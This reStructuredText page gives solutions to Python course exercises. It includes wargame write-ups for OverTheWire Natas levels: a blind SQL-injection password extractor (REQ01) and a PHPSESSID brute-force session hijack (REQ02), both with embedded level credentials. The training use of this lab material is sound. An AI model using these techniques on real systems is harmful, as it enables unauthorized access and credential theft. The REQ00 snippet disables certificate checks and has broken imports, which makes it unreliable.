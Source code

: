 Solutions
======================================================


.. _FIL00_solution:

Solution to FIL00
-----------------------------

Working script
____________________________

.. code-block:: python

    import random

    with open('input.txt', 'w') as f:
        for i in range(10):
            f.write(str(random.randint(1, 10)) + '\n')

    with open('input.txt') as f_in, open('output.txt', 'w') as f_out:
        for l in f_in:
            f_out.write(int(l)*"X" + '\n')

.. _REQ00_solution:

Solution to REQ00
-----------------------------

Working script
____________________________

.. code-block:: python

    from requests.auth import HTTPBasicAuth
    from credentials import username, username

    URL = "https://userdatabase.lsy.pl/employees/report/employee/active"

    auth = HTTPBasicAuth(username, username)

    r = requests.get(URL, auth=auth, verify=False) # to ignore certificate warnings

    print(r.status_code)

.. _REQ01_solution:

Solution to REQ01
-----------------------------

Malicious query
____________________________

The user input that would escape the original query, and add the additional condition on the password is (for the first letter assumed to be "A"):

.. code-block:: sql

    'natas16" AND password LIKE BINARY "A%'

The full query will have then the form

.. code-block:: sql

    SELECT * from users where username="natas16" AND password LIKE BINARY "A%"


Working script
____________________________

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth

    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

    URL = "http://natas15.natas.labs.overthewire.org"

    auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

    template = 'natas16" AND password LIKE BINARY "{}%'

    letters = ""

    for _ in range(32):
        for letter in chars:
            payload = {"username":template.format(letters+letter)}
            r = requests.get(URL, auth=auth, params=payload)
            if "This user exists" in r.text:
                letters += letter
                print(letters)
                break

    print("Password found {}".format(letters))

.. _REQ02_solution:

Solution to REQ02
-----------------------------

Working script
____________________________

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth
    import re

    URL = "http://natas18.natas.labs.overthewire.org"
    auth=HTTPBasicAuth('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

    for sess_id in range(10000):
        print("Trying session ID {}".format(sess_id))
        cookie = {"PHPSESSID":str(sess_id)}
        payload = {"username":"x", "password":"y"}
        r = requests.get(URL, auth=auth, cookies=cookie, params=payload)
        if "You are logged in as a regular user." not in r.text:
            print("Admin session ID found {}".format(sess_id))
            password = re.search("Password: ([A-Za-z0-9]{32})", r.text)
            if password:
                print("Password: "+password.group(1))
            else:
                print("Password not found in the response")
                print(r.text)
            break
        else:
            print("FAILED")
    else:
        print("Brute force on Session ID failed")



.. _API00_solution:

Solution to API00
-----------------------------

Working script
____________________________

.. code-block:: python

    from jira import JIRA

    URL = "https://issues.apache.org/jira/"
    j = JIRA(URL)

    search_results = j.search_issues('type="New Feature"', maxResults=100)
    for issue in search_results:
        print(issue.fields.summary)

